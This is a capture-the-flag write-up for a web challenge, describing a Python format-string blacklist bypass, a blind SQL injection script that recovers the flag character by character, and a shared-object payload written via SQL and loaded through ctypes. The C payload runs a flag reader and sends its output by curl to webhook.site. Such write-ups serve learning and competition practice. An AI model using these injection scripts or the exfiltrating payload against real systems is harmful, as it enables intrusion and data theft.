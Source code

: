 ```yaml
---
ai_date: 2025-04-27 05:28:42
ai_summary: Exploited SQL injection with format string and payload injection to bypass restrictions, eventually using 'DUMPFILE' to leak flag
ai_tags:
  - sql
  - format-string
  - payload-injection
created: 2025-01-12T11:00
points: 460
solves: 33
updated: 2025-07-14T09:46
---
```


After some testing I discovered the world of python format string attacks.

```python
username = "{password.__init__}"
password = "hi"

SELECT * FROM users WHERE username = '<method-wrapper '__init__' of str object at 0x00007FF90538C3B8>' AND password = 'hi'
```

Soon I found out how to bypass the blacklist entirely.

```python
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

username = "{A}' OR 1=1 -- '"
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

r = requests.post("https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/", data={
    "username": username,
    "password": "w"
})
print(r.text)
```

However the server does not reply with anything, so simply logging in isn't helpful.

```python
user = cursor.fetchone()
if user:
	flash("Login successful!", 'success')
	return render_template('under_construction.html')
else:
	flash("Login Failed\n"+sanitized_query, 'error')
```

I tried leaking the credentials in global but they are just the default credentials.

## Part 1: SQL '%' operation

Then I implemented a char-by-char attack by using SQL's `%` wild card.

Login success only happens if the last char is correctly guessed.

```python
import string
import asyncio
import aiohttp
from tqdm.asyncio import tqdm
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

# UNION SELECT NULL, NULL, flag FROM flags --
target = "https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/"
# target = "http://localhost:5000/"


async def check_flag(session, flag):
    username = "{A}' OR EXISTS (SELECT 1 FROM flags WHERE flag LIKE CONCAT(UNHEX('"+flag.encode().hex()+"'), '%')) #"
    for i, c in enumerate(MALICIOUS_CHARS):
        username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

    async with session.post(target, data={
        "username": username,
        "password": "w"
    }) as response:
        text = await response.text()
        return flag if "Login successful!" in text else None


async def check(flag):
    async with aiohttp.ClientSession() as session:
        tasks = []
        for c in string.printable:
            if c == '%':
                c = '\\%'
            if c == '_':
                c = '\\_'
            tasks.append(check_flag(session, flag + c))

        results = []
        for task in tqdm(asyncio.as_completed(tasks), total=len(tasks)):
            results.append(await task)
        for result in results:
            if result:
                return result
    return None


async def main():
    flag = "uoftctf"
    while True:
        flag = await check(flag)
        if flag is None:
            break
        print(flag)
        if flag[-1] == '}':
            break
    print(flag.replace('\\', ''))

asyncio.run(main())
```

### part 1 flag

```flag
uoftctf{R3M3Mb3R_70_c173_Y0uR_50URc35_1N_5qL_F0RM47}
```

## Part 2

- SQL's `into outfile` does not work on pre-existing files.
- Template injection was not able to call any functions.
- `cdll[/readflag]` fails due to it not being position independent.

My closest attempt was writing a binary via SQL then trying to load it.

```python
import base64
import re
import requests
import html
import os
target = "http://localhost:5000/"


MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]
with open("exploit.so", "rb") as f:
    payload = base64.b64encode(f.read()).decode('utf-8')

# username = "{B}' UNION (SELECT FROM_BASE64('"+payload+"'),NULL,NULL) INTO OUTFILE '/run/mysqld/payload.so' # -- "
username = """{B}{{A}}' {{A.__init__.__globals__[setuptools].windows_support.ctypes.cdll[/run/mysqld/payload.so]}}"""
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{B.MALICIOUS_CHARS[%d]}" % i)
# print(username)
response = requests.post(target, data={
    "username": username,
    "password": "w"
})

decoded_response = response.content.decode('utf-8')
decoded_response = html.unescape(decoded_response)
print(decoded_response)

```

This is the source of `payload.so`.

```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void on_load() {
    FILE *fp;
    char buffer[128];
    char curlCommand[256];
    const char *url = "https://webhook.site/";
    fp = popen("/readflag", "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        snprintf(curlCommand, sizeof(curlCommand), "curl -X POST -d \"flag=%s\" %s", buffer, url);
        system(curlCommand);
    }
    pclose(fp);
}
```

It works locally (via python script).

```python
import ctypes
ctypes.cdll['./exploit.so']
```

But for some reason, never on the docker or remote.

The file is there, but I get error of `file not found` when trying to execute it with format string payload.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736726181/2025/01/df944d01f0a33f1134a02a51267e84a4.png)

After the CTF ended, I realised that I was really close.

All I had to do was switch `OUTFILE` to `DUMPFILE`.

And my solution will work.

![200w.gif](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736727242/2025/01/cdd29fbe6702a911d79e99121cf3bb62.gif)

```flag
uoftctf{5h3_53ll5_534_5h3ll5_by_7h3_C_5h0r3_c9b821c}
```